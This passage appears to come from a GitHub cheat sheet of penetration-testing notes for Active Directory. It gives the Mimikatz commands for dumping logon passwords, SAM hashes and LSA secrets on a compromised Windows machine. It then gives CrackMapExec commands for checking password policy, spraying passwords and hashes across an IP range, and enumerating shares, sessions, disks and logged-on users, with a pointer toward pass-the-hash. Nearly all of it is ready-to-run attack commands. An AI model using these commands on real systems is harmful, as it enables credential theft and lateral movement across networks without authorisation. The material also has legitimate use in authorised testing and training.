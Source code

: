 **Credential Dumping with Mimikatz**
- Download the binary file into the compromised machine.
- Open a CMD, navigate to the downloaded folder and execute the exe file. ./mimikatz.exe
- Run the debug mode : `privilege::debug` . The debug means that it's allowing us to debug a process that we wouldn't otherwise have access to. Example: Dump information out of memory.
- Dump the logon password.
	- `sekurlsa::logonpassword`
- Dump the SAM hashes
	- `lsadump::sam`
- Dump the LSA
	- `lsadump::lsa /patch`
	
### SwisArmy CrackMapExec Intro
- A post exploitation tool that helps automate assessing the security of large Active Directory Networks
- Available Protocols : ldap, mssql, smb, ssh, winrm <br> <br>

**CrackMapExec Password Policy Checkup**
- Before performing brute force attack using crackmapexec, it is always handful to analyze its password policy, so that we do not logout the users from their computer. It also helps on [generating password](https://github.com/nirajkharel/PasswordCracking/blob/main/README.md) as well.
- `crackmapexec smb IP --pass-pol -u '' -p ''`


**SwisArmy CrackMapExec Password Spraying**
- Spray credentials to IP range
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --no-bruteforce`
  - It will also show if we have an admin access, if it has a admin access, it will show (Pwn3d!) message.
- Spray different users and password combination
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u usernames.txt -p passwords.txt --no-bruteforce`
- Spray Hashes to IP range
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -H hashes.txt --no-bruteforce`
- By default CrackMapExec exit after a successfull login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. <br><br>

**SwisArmy CrackMapExec ENUM 1**
- Use smb modules to do some enumeration for the shares
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --shares`
  - It will provide the share name, permissions and remarks
  - We can follow the result gained by it using SMBCLIENT to access the shares after this.
- Sessions
  - Take a look at a sesions and see if they is any sessions going on which we have access.
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --sessions`
- Enumerate Disks
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --disks`
- Logged on Users
  - See if we have any logged on users in the network
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --loggedon-users`
  - If we are a local admin, but we might not be a domain admin, if the logged on users are domain admin we will be able to dump the hashes and can perform Pass The Hash attack and get a sessions.
- Get all users
  - `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --users` <br><br>

